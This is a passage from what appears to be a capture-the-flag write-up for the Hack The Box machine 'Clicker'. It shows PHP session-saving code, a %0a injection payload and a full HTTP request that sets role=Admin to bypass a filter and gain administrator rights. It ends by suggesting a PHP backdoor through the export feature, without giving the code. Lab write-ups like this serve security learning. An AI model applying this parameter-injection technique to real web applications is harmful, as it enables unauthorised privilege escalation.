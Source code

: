 ```php
    $_SESSION['CLICKS'] = $_GET['clicks'];
    $_SESSION['LEVEL'] = $_GET['level'];
    header('Location: /index.php?msg=Game has been saved!');

}
?>
```

- So we can add the **parameter** `role` to try bypass our *normal-user role* to `Admin`.

![https://i.ibb.co/T20BTC8/burp-suite-crlf.webp](https://i.ibb.co/T20BTC8/burp-suite-crlf.webp)

- Picture zoom:

![https://i.ibb.co/zZ3RxTm/burp-suite-crlf-zoom.webp](https://i.ibb.co/zZ3RxTm/burp-suite-crlf-zoom.webp)

- CRLF Injection Payload:

```
%0a
```

- Request:

```
GET /save_game.php?clicks=3&level=0&role%0a=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=k04t2u6s0r3q6pd884eq4nho0l
Upgrade-Insecure-Requests: 1
```

- We've been used a CRLF Injection `(%0a)` to bypass the PHP WAF and therefore set for us the role "Admin". 
- Also we added a new parameter to manipulate the application and can give to us access as Administrator (`&role=Admin`).
- Now we just need logout and login again to server can **reload** our **Role**:

![https://i.ibb.co/fq2B44c/clicker-htb-administration.webp](https://i.ibb.co/fq2B44c/clicker-htb-administration.webp)

- So we are **Administrators** on this web app, let's take a look...
- From Burp Suite we can see that it is possible export "**results**" also as **PHP** file, because it works

![https://i.ibb.co/pXwWmmG/burp-suite-export-php.webp](https://i.ibb.co/pXwWmmG/burp-suite-export-php.webp)

![https://i.ibb.co/zRBrJ71/export-php.webp](https://i.ibb.co/zRBrJ71/export-php.webp)

>   *Pentester Mindset*: "Server is running **PHP** and we can also export a file in **PHP** **filetype**, so: ¿Why not try to create a *PHP backdoor*? ¿Which code we need to?"
